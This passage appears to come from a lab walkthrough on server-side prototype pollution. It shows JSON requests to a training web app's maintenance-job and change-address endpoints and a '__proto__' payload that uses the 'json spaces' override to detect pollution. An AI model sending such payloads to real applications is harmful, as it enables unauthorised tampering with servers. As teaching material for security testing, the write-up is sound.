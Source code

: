 ```json
{
    "csrf": "jhbK49bsOUjlWHpbaox8hurZWfNfVTB6",
    "sessionId": "5nRtK7kb8P9i60GkjJHYKZPII7ywBO1n",
    "tasks": [
        "db-cleanup",
        "fs-cleanup"
    ]
}
```

**If there's no error, the web application will respond a JSON data:**
```json
{
    "results": [
        {
            "name": "db-cleanup",
            "description": "Database cleanup",
            "success": true
        },
        {
            "name": "fs-cleanup",
            "description": "Filesystem cleanup",
            "success": true
        }
    ]
}
```

Armed with above information, we can try to **test the web application is vulnerable to server-side prototype pollution**!

In `/my-account/change-address`, `POST` or `PUT` requests that submit JSON data to an application or API are prime candidates for this kind of behavior as it's common for servers to respond with a JSON representation of the new or updated object. In this case, you could attempt to pollute the global `Object.prototype` with an arbitrary property.

### Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`

To do so, we could use `__proto__` to pollute the global `Object.prototype`, and using "JSON spaces override" technique to detect server-side prototype pollution:

```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "5nRtK7kb8P9i60GkjJHYKZPII7ywBO1n",
    "__proto__": {
        "json spaces": 1
    }
}
```
